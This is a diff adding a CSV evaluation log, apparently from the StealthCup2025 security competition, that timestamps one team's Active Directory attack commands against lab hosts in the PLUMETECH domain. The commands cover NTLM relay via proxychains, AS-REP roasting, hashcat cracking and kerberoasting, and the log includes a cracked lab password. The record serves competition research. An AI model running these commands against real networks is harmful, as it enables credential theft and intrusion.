

Before and after one commit to ait-cs-IaaS/StealthCup2025, a CSV file: docs/ScientificApplication/csv/eval_team2.csv, drawn as a sheet; only a part is shown; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
update eval_teamX.csv as in private repo

```diff
--- a/docs/ScientificApplication/csv/eval_team2.csv
+++ b/docs/ScientificApplication/csv/eval_team2.csv
+column A, rows 1-13: Time | N/A | N/A | N/A | 15:55 | 15:55 | 15:55 | 15:59 | 16:00 | 16:03 | 16:03 | 16:09 | 16:09
+column B, rows 1-13: Commands/Tools | nxc, nmap, impacket, proxychains4, smbclient, hashcat, certipy-ad, susinternals | N/A | N/A | nxc smb 10.0.2.0/24 --gen-relay-list list.txt | nxc smb 10.0.2.0/24 --gen-relay-list list.txt | impacket-ntlmrelayx -t 10.0.2.12 -smb2support -socks | proxychains4 impacket-lookupsid -no-pass -domain-sids PLUMETECH/JULIAN@10.0.2.12 | proxychains4 smbclient -L //10.0.2.12/ -U PLUMETECH/julian, proxychains4 smbclient //10.0.2.12/IT -U PLUMETECH/julian | nxc ldap 10.0.2.11 -d PLUMETECH -u debbie -p '' --asreproast output.txt | hashcat -m 18200 -a 0 -O debbie.txt rockyou.txt | nxc ldap 10.0.2.11 -d PLUMETECH -u debbie -p '25800ellie' --kerberoasting krb.txt | nxc ldap 10.0.2.11 -d PLUMETECH -u debbie -p '25800ellie' --kerberoasting krb.txt
```
Also changed, not shown: docs/ScientificApplication/csv/eval_team6.csv, docs/ScientificApplication/csv/eval_team9.csv.
